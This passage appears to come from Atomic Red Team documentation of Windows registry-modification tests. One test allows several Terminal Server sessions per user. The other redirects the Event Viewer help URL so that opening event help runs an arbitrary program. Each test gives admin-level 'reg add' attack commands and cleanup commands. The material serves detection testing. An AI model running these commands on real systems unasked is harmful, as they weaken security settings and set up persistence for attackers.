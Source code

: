 #### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #47 - Event Viewer Registry Modification - Redirection URL
Modify event viewer registry values to alter the behavior of the online help redirection. Upon opening an event in event viewer and attempting to view the help page for the event, it will open the URL or execute the program defined in the redirection URL registry entry.

**Supported Platforms:** Windows


**auto_generated_guid:** 6174be7f-5153-4afd-92c5-e0c3b7cdb5ae





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| redirection_url | URL to open or file URI to execute upon opening the event help | url | file://C:&#92;windows&#92;system32&#92;notepad.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v MicrosoftRedirectionURL /t REG_SZ /d "#{redirection_url}" /f
```

#### Cleanup Commands:
```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v MicrosoftRedirectionURL /t REG_SZ /d "http://go.microsoft.com/fwlink/events.asp" /f
```


